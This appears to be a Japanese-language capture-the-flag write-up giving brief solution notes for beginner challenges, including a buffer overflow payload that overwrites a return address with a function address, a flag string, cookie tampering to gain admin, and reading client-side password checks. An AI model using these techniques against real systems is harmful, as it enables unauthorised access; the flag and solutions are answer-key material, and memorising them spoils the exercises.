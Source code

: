 ## OverFlow 1
- バッファオーバーフローを考える  　
- vuln()内で参照するリターンアドレスが表示されるプログラムである  
- flag()のアドレスをgdbなどで調べる  
- オーバフローしてアドレスが変更される境界線(文字列の長さ)を模索し、境界線以降にflag()のアドレスを入れる  
- アドレス入力の際に、リトルエンディアンに気を付ける  
- 入力例は以下  
```
echo -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xe6\x85\x04\x08" | ./vuln
```
- CognitiveCTF{n0w_w3r3_ChaNg1ng_r3tURn5_f4c9f24e}
## dont-use-client-side
- ソースを見ると、HTMLにJavascriptが埋め込まれてる  
- どうやら、JSでパスワードチェックしている  
- JSで比較している文字列を並び変えるだけ  

## logon
- cookieのadminをTrueにする  
- chromeだと、「EditThisCookie」という拡張機能が便利

## strings it
- バイナリファイルなので、stringsコマンド使う(windowsはわからない)
```
strings file_name | grep CTF
```

## vault-door-1
- Javaコードの中にパスワードを比較している部分がある  
- 32文字  
- 単純に並び変える？  

## what's a net cat?
- netcat使うだけ　　
```
nc address ip
```

## where are the robots
- robots.txtにアクセスして、そこの指示に従うだけ　　


# 150 points
## So Meta
- たしか、catしてgrepするだけ
```
cat file_name | grep CTF
```
